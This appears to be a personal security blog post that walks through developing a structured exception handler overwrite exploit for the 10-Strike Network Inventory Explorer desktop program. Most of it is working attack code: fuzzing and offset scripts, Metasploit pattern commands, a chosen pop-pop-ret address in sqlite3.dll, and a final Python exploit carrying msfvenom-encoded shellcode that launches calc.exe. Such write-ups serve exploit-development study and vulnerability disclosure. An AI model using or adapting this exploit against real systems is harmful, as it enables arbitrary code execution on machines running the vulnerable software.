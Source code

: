 ```yaml
---
layout: post
title: 10-Strike Network Inventory Explorer 'Add' Structered Exception Handling Overwrite
date: 2020-03-24 14:31:00
categories: posts
comments: false
en: true
---
```


# Preamble
Today i was gathering around Exploit-DB, when i found [this](https://www.exploit-db.com/exploits/44838) exploit, so i thought of searching a vulnerability in such software.

# The Bug
10-Strike Network Inventory Explorer suffers from a Structered Exception Handling (SEH) overwrite when issuing a long command within the 'Add' parameter, meaning that arbitrary code may be executed within a crafted exploit.

Initial PoC script:

```term_session
import struct

buffer = "A" * 1000
f = open ("strike.txt", "w")
f.write(buffer)
f.close()
```

Once the exploit is executed with python, it is opened and copied to clipboard with Notepad++. In order to paste the content within the vulnerable parameter, it is gone to the 'Main tab', and the 'Add' button is selected:

![](/assets/img/Findings1/0.png)

Once this is done, the contents are pasted within the 'Computer' parameter, under 'Computer Card':

![](/assets/img/Findings1/1.png)

Seconds after this is done, the SEH Chains is overwritten:

![](/assets/img/Findings1/2.png)

A pattern is generated with msf-pattern_create:

```term_session
msf-pattern_create -l 1000 
```

![](/assets/img/Findings1/3.png)

This pattern is pasted within the previous showed parameter, overwritting the SEH Chain values with the following:

![](/assets/img/Findings1/4.png)

The nSEH value is grabbed and parsed with msf-pattern_offset:

```term_session
root@kali:~# msf-pattern_offset -q 68413068 
[*] Exact match at offset 211
root@kali:~# 
```

As seen, the offset should be 211 bytes, once this is done, the PoC is updated:

```term_session
import struct

buffer = "A" * 211 + "BBBB" + "CCCC"
f = open ("strike.txt", "w")
f.write(buffer)
f.close()
```

Upon repeating the previous process, the SEH Chains values are overwritten with the desired values:

![](/assets/img/Findings1/5.png)

Good, as now it is known that control is obtained, it is now off to find a POP-POP-RETN sequence. 

In order to find one, modules without protections are listed:

![](/assets/img/Findings1/6.png)

In this case, i will use the module 'sqlite3.dll'. 

POP POP RETN sequences are listed:

![](/assets/img/Findings1/7.png)

On this case, i chose the first address. Now, it is needed to confirm execution, this will done by adding extra values and see if those are executed.

Updated PoC:

```term_session
import struct

nseh = struct.pack("<I", 0x909006EB)
seh = struct.pack("<I", 0x61E8497A) # 0x61e8497a : pop esi # pop edi # ret  |  {PAGE_EXECUTE_READ} [sqlite3.dll] ASLR: False, Rebase:
False, SafeSEH: False, OS: False, v3.12.2 (C:\Program Files\10-Strike Network Inventory Explorer\sqlite3.dll)

buffer = "A" * 211 + nseh + seh + "\xff" * 200
f = open ("strike.txt", "w")
f.write(buffer)
f.close()
```

After the process of exploitation is once again repeated, the SEH Chains is overwritten by the short jump and POP POP RETN sequence:

![](/assets/img/Findings1/11.png)

Moreover, if SHIFT+F9 combination is pressed twice, the execution continues as desired:

![](/assets/img/Findings1/8.png)

Great! Execution has been granted, the last step is to generate some shellcode, isn't it?

![](/assets/img/Findings1/9.png)

Final PoC:

```term_session
import struct

nseh = struct.pack("<I", 0x909006EB)
seh = struct.pack("<I", 0x61E8497A) # 0x61e8497a : pop esi # pop edi # ret  |  {PAGE_EXECUTE_READ} [sqlite3.dll] ASLR: False, Rebase: 
False, SafeSEH: False, OS: False, v3.12.2 (C:\Program Files\10-Strike Network Inventory Explorer\sqlite3.dll)

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed 
# Payload size: 448 bytes

buf =  b""
buf += b"\x89\xe5\xdb\xd0\xd9\x75\xf4\x5d\x55\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x59\x6c\x59\x78\x6b"
buf += b"\x32\x57\x70\x67\x70\x33\x30\x71\x70\x4f\x79\x58\x65"
buf += b"\x35\x61\x6b\x70\x73\x54\x4e\x6b\x30\x50\x66\x50\x4c"
buf += b"\x4b\x42\x72\x34\x4c\x4c\x4b\x46\x32\x52\x34\x6c\x4b"
buf += b"\x74\x32\x45\x78\x66\x6f\x6d\x67\x32\x6a\x37\x56\x56"
buf += b"\x51\x39\x6f\x4e\x4c\x45\x6c\x55\x31\x73\x4c\x76\x62"
buf += b"\x56\x4c\x55\x70\x6a\x61\x5a\x6f\x54\x4d\x46\x61\x78"
buf += b"\x47\x4d\x32\x69\x62\x61\x42\x62\x77\x6e\x6b\x73\x62"
buf += b"\x76\x70\x6c\x4b\x62\x6a\x57\x4c\x4e\x6b\x72\x6c\x44"
buf += b"\x51\x50\x78\x7a\x43\x33\x78\x75\x51\x6a\x71\x50\x51"
buf += b"\x4e\x6b\x66\x39\x75\x70\x46\x61\x6e\x33\x6c\x4b\x30"
buf += b"\x49\x44\x58\x6a\x43\x64\x7a\x31\x59\x4e\x6b\x65\x64"
buf += b"\x6c\x4b\x45\x51\x59\x46\x35\x61\x59\x6f\x6e\x4c\x6b"
buf += b"\x71\x78\x4f\x66\x6d\x33\x31\x6a\x67\x45\x68\x4b\x50"
buf += b"\x62\x55\x69\x66\x53\x33\x53\x4d\x49\x68\x57\x4b\x31"
buf += b"\x6d\x35\x74\x73\x45\x49\x74\x52\x78\x4e\x6b\x31\x48"
buf += b"\x64\x64\x63\x31\x5a\x73\x61\x76\x6c\x4b\x36\x6c\x50"
buf += b"\x4b\x6e\x6b\x46\x38\x55\x4c\x36\x61\x58\x53\x6e\x6b"
buf += b"\x65\x54\x6c\x4b\x75\x51\x48\x50\x6b\x39\x70\x44\x45"
buf += b"\x74\x31\x34\x31\x4b\x53\x6b\x43\x51\x30\x59\x43\x6a"
buf += b"\x73\x61\x6b\x4f\x49\x70\x63\x6f\x71\x4f\x43\x6a\x4e"
buf += b"\x6b\x57\x62\x58\x6b\x4c\x4d\x53\x6d\x73\x5a\x63\x31"
buf += b"\x4c\x4d\x6c\x45\x58\x32\x55\x50\x45\x50\x65\x50\x36"
buf += b"\x30\x61\x78\x30\x31\x4e\x6b\x52\x4f\x6d\x57\x69\x6f"
buf += b"\x4e\x35\x6d\x6b\x4c\x30\x6d\x65\x6e\x42\x31\x46\x55"
buf += b"\x38\x4e\x46\x6a\x35\x4f\x4d\x4d\x4d\x49\x6f\x68\x55"
buf += b"\x37\x4c\x43\x36\x61\x6c\x45\x5a\x6b\x30\x79\x6b\x49"
buf += b"\x70\x64\x35\x63\x35\x4d\x6b\x67\x37\x74\x53\x74\x32"
buf += b"\x62\x4f\x71\x7a\x65\x50\x53\x63\x4b\x4f\x69\x45\x42"
buf += b"\x43\x33\x51\x70\x6c\x42\x43\x36\x4e\x73\x55\x51\x68"
buf += b"\x65\x35\x63\x30\x41\x41"

buffer = "A" * 211 + nseh + seh + "A" * 20 + buf + "\xff" * 200
f = open ("strike.txt", "w")
f.write(buffer)
f.close()
```

# EndGame 

![](/assets/img/Findings1/10.png)

